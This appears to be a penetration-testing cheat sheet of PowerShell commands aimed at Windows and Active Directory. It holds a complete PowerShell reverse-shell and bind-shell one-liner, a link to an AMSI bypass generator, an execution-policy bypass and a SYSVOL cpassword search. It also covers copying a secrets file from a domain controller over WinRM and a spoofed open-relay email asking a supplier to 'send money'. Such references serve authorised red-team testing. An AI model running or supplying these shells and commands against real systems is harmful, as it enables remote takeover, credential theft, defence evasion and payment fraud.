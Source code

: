 icon:simple/windows10

# Powershell

Command-line shell and scripting language in Windows used for task automation, configuration management, and system administration tasks.

## Files

- [powershell.exe](../assets/files/powershell.exe){:download="powershell.exe"}
- [powershell_ise.exe](../assets/files/powershell_ise.exe){:download="powershell_ise.exe"}

## Antimalware Scan Interface (AMSI) Bypass Generator

- [AMSI.fail](https://amsi.fail/)

## Active Directory PowerShell Module

This way the Active Directory PowerShell module can be used portable without administrator privileges. For example, when running in Azure Virtual Desktops or AzureAD managed devices, you will probably get the error message Unable to find a default server with Active Directory Web Services running.. Use the -Server DC01.offsec.nl flag after your CMDlet.

```powershell
mkdir C:\temp; iwr https://github.com/crypt0rr/filehosting/raw/master/Microsoft.ActiveDirectory.Management.dll -OutFile C:\temp\1234hoedjevanpapier.dll; Import-Module C:\temp\1234hoedjevanpapier.dll
```

##### PowerShell module

[Microsoft.ActiveDirectory.Management.dll](../assets/files/Microsoft.ActiveDirectory.Management.dll){:download="Microsoft.ActiveDirectory.Management.dll"}

```powershell
PowerShell: Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
```

## Examples

##### Adjust execution policy

```powershell
Set-ExecutionPolicy -scope process -execution bypass
```

##### Check ‘ms-DS-MachineAccountQuota’

```powershell
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

##### List users with ‘Store passwords using reversible encryption’ enabled

```powershell
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

##### Finding cpassword

```powershell
findstr /s /n /i /p cpassword $env:logonserver\sysvol\*
```

##### Get members of specific group

```powershell
Get-ADGroupMember “Domain Admins”
Get-ADGroupMember “Domain Admins” | select SamAccountName
```

##### Get details

```powershell
$env:logonserver
```

##### Check which users home directories you have access to

```powershell
gci C:\users\*\*
```

##### Enable access to C-drive in Explorer

```powershell
subst z: c:\
```

##### Check how many computerobjects can be added by a user

```powershell
Get-ADObject ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

##### Overview domain admins

Where ‘Password Never Expires’ is set.

````powershell
Get-ADGroupMembers 'Domain Admins' | Foreach-Object {
Get-ADUser -Filter \* -Properties | Select-Object Name,DisplayName,sAMAccountName,PasswordLastSet,PasswordNeverExpires
} | Sort-Object Name, PasswordLastSet, PasswordNeverExpires | Format-Table -AutoSize

Where ‘Password Never Expires’ is NOT set.
```powershell
Get-NetGroupMember 'Domain Admins' | Foreach-Object {
Get-NetUser -Filter \* | Select-Object Name,DisplayName,sAMAccountName,PwdLastSet,AccountExpires
} | Sort-Object Select-Object Name,PwdLastSet | Format-Table -AutoSize
````

##### Check secureboot enabled

```powershell
Confirm-SecureBootUEFI
```

##### List users with PasswordNeverExpires enabled

```powershell
Import-Module ActiveDirectory
Get-ADUser -filter \* -properties Name, PasswordNeverExpires | where { $_.passwordNeverExpires -eq "true" } | where {$\_.enabled -eq "true" }
```

##### List Domain Admins where ‘Account is sensitive an cannot be delegated’ is not set

```powershell
Get-ADGroupMember "Domain Admins" | Get-ADUser -Properties AccountNotDelegated | Where-Object {-not $\_.AccountNotDelegated} | select AccountNotDelegated,Name,SamAccountName
```

Import-Module ActiveDirectory

##### Change user agent

```powershell
iwr -UserAgent 'Non existing user agent in use'
```

##### Enable repository use

For PowerShell 4 and higher. For 5.1 and higher you can try **Register-PSRepository -default** first otherwise use code below.

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

Install-PackageProvider -Name NuGet -RequiredVersion 2.8.5.208 -Force

Register-PSRepository -Name PSGallery -SourceLocation https://www.powershellgallery.com/api/v2/ -PublishLocation https://www.powershellgallery.com/api/v2/package/ -ScriptSourceLocation https://www.powershellgallery.com/api/v2/items/psscript/ -ScriptPublishLocation https://www.powershellgallery.com/api/v2/package/ -InstallationPolicy Trusted -PackageManagementProvider NuGet

Install-Module $ModuleName -scope CurrentUser
```

##### Copy remote file to local (WinRM)

```powershell
$ses = New-PSSession -ComputerName DC01 -Credentials $(Get-Credential)
Copy-Item -FromSession $ses C:\Users\adm-johndo\DC01\secrets.txt Z:\localdisk\secrets.txt
```

##### Open Relay

```powershell

Send-MailMessage -From 'Not John Do <finance@offsec.nl>' -To 'supplier@offsec.nl' -Subject 'Please send money' -SmtpServer 'openrelay.offsec.nl'
```

##### Download a file from a remote resource

When ran from cmd.exe add powershell -c "<command>"

```powershell
(new-object System.Net.WebClient).DownloadFile('https://www.7-zip.org/a/7z2201-x64.exe','C:\Users\crypt0rr\Desktop\7z2201-x64.exe')
```

## Shells (reverse/bind)

##### Reverse shell

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<TARGET-IP-HERE>',<TARGET-PORT-HERE>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

##### Bind shell

0.0.0.0 - will bind to every IP-address available on the local system

```powershell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',<TARGET-PORT-HERE>);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

## Port Scan

```powershell
Test-NetConnection DC01.offsec.nl -port 389

ComputerName : DC01.offsec.nl
RemoteAddress : 10.10.10.10
RemotePort : 389
InterfaceAlias : Ethernet
SourceAddress : 10.0.0.4
TcpTestSucceeded : True

```
